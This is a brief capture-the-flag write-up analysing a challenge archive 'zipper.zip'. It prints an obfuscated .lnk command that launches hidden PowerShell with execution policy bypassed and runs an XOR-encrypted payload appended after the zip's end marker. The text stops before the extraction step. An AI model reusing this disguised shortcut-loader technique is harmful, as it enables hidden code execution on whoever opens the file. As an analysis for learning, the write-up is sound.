


# Zipper
We are given a zipper.zip file. The archive contains two files: zipper.jpg and zipper.lnk. Examining the file in hex editor shows that the archive has some data after the end mark:
 


It is:

```
$x = [System.Convert]::FromBase64String("<b64string>");$pt = [System.Text.Encoding]::UTF8.GetString($(for ($i=0; $i -lt $x.length; $i++){$x[$i] -bxor $key[$i%$key.length]}))
```

However, the key is not present. It can be found inside zipper.lnk, which has the following object string:

```
%comspec% /c powershel%LOCALAPPDATA:~-1% -eP bypasS -win Hi'dde'n -c '&{c:\users $v=dir -force -r -in zipper.zip|select -last 1;$key=[System.Text.Encoding]::UTF8.GetBytes("Ae%4@3SDs");$j=gc -LiteralPat $v.fullname;$j[$j.length-1]|iex;iex($pt)}'"
```

Now we can extract the data:

